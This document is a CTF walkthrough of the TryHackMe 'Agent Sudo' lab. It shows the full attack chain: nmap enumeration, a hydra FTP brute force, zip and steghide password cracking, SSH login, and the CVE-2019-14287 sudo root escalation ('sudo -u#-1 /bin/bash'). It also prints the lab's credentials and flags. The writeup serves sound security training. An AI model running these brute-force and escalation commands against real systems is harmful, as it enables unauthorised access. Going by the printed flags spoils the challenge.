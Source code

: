 # Agent Sudo

![Logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5f59219d-e80c-4ab9-a2b5-b67ded75b5e3)

## Enumeration

Let's enumerate the machine with nmap :

```bash
nmap -sT -sV 10.10.52.49
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e056fada-cec3-472c-92f8-e78987ef27cd)

we browse to web server on port `80` :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/810ff7da-99a0-4ae6-aa56-6c7adaeeb214)

we see that the page needs user-agent to access the site and `R` is agent that wrote this message.

we can infere that other agents codenames are like this, try accessing the website with curl command and user agent.

if we set user-agent to `A` or `B` nothing happens, but setting user-agent as `C` will show a different message :

```bash
curl http://10.10.52.49/ -H 'user-agent: C' -L
```

`-L` is for following redirects :

![userAgent](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/403f2967-e34f-46b2-b077-1c49946d7b38)

we can see this is a message to user `chris`, so we can brute force the ftp login with this user :

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.52.49 ftp -v
```

yes, hydra finds the password :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/55dcb21c-d77f-4cf5-8a5f-40184a691fc8)

login to ftp server with this credential : `chris:crystal` and use `dir` to show the content, download all the files there.

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/49494c20-cb95-4718-ba24-4b397c081e5c)

cat the content of `To_agentJ.txt` file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

so we find out that the login password is in the fake picture, let's examin the pictures :

we start by examining `cutie.png`

```bash
binwalk -e cutie.png --run-as=root
```

there is a zip file inside and it is password protected.

use `zip2john` to brute force the password :

```bash
zip2john cutie.png > hash.txt
```

and the use it in `john` :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![zipPass](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fa83858b-c463-48c3-adff-0af0763b04bc)

use this password to open the zip file :

```bash
7za x 8702.zip
```

and open the `To_agentR.txt` :

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

the string `QXJlYTUx` is a base64 encoded so we need to decode it :

```bash
echo -n 'QXJlYTUx' | base64 -d

Area51
```

Let's examin the `cute-alien.jpg` picture :

```bash
steghide info cute-alien.jpg
```

it needs a password, use `Area51` password which we found in the zip file of `cutie.png` :

```bash
steghide extract -sf cute-alien.jpg
```

there is a file call `message.txt` inside, open it :

```text
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

from this message we understand that the password of user `james` is `hackerrules!`

yes we can now ssh to machine with these credentials `james:hackerrules!`

now, cat the user.txt file here :

```bash
cat user_flag.txt

b03d975e8c92a7c04146cfa7a5a313c7
```

and download the `Alien_autospy.jpg` file to your machine using scp :

```bash
scp james@10.10.52.49:Alien_autospy.jpg /root
```

for the question `What is the incident of the photo called?` is used the hint and then used this google dork :

```text
Alien autospy site:foxnews.com
```

and the first link gives you the anwer `Roswell alien autopsy`.

## Privilege Escalation

use `sudo -l` to see if any sudo permissions is set for user james :

```bash
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

emmmm!!, now we can use /bin/bash as root but wait, this is suspicious, lets check the sudo version with `sudo -V` :

```bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

just search for the vulnerabilities of this version in exploit db or google search the `(ALL, !root) /bin/bash` exploits :

you will find the `CVE-2019-14287` for this sudo version and the exploit is :

```bash
sudo -u#-1 /bin/bash
```

![exploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/4ef94669-139d-42b8-8586-69dfe2f2ff4e)

cat the content of `/root/root.txt` :

```text
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

and with the above text we see that Agent R is Deskel.
